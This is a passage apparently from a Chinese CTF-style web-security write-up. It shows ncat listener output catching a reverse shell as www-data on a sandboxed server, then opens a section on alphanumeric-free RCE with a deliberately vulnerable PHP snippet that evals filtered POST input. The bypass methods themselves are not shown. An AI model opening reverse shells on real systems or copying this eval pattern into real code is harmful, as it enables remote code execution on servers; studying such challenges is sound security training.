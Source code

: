 效果如下：

```ruby
[root@gr8oqhchd ~]# nc -lv 8000
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::8000
Ncat: Listening on 0.0.0.0:8000
Ncat: Connection from 81.71.84.61.
Ncat: Connection from 81.71.84.61:43998.
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@314b51:~/html/sandbox_92f06c44fa329edc79eafc1eb$ ls /
ls /
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
www-data@314b51:~/html/sandbox_92f06c44fa329edc79eafc1eb$ 
```











## 无字母数字rce

以下三种方法可以用来解决类似这种无字母数字rce

```php
<?php
highlight_file(__FILE__);
$code = $_POST['code'];
if(preg_match("/[A-Za-z0-9]+/",$code)){
    die("hacker!");
}
@eval($code);
?>
```
